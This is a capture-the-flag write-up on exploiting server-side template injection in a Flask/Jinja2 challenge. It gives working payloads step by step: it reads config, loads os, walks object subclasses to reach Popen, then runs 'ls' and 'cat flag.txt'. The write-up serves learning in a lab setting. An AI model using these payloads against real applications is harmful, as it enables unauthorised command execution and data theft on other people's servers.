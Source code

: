 # Hey Buddy

This challenge had a text box and the source was given it was written in flask so I tried SSTI by passing {{2*6}} and I was presented with 12.

![success](success.png)

I looked up this amazing [blog](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee)

So First thing was to check if we can access `config`

```bash
# payload
{{config}}
```

Response

![config](config.png)

Now we add the module subprocess.

```bash
# payload
{{config.from_object('os')}}
```

And then check the config variable again we can see extra variables were added at the end

![os](os.png)

After that checking the classes loaded

```bash
# payload
{{''.__class__.__mro__[1].__subclasses__()}}
```

We can see there is Popen in there that means we can execute code
![popen](popen.png)

Finding the index of Popen class in my case it was `213`

Listing the contents of the directory

```bash
# payload
{{''.__class__.__mro__[1].__subclasses__()[213](["ls"],stdout=-1,stderr=-1).communicate()}}
```

![ls](ls.png)

There we can see there is a flag.txt, next command to display the contents of flag.txt.

```payload
{{''.__class__.__mro__[1].__subclasses__()[213](["cat","flag.txt"],stdout=-1,stderr=-1).communicate()}}
```

![flag](flag.png)
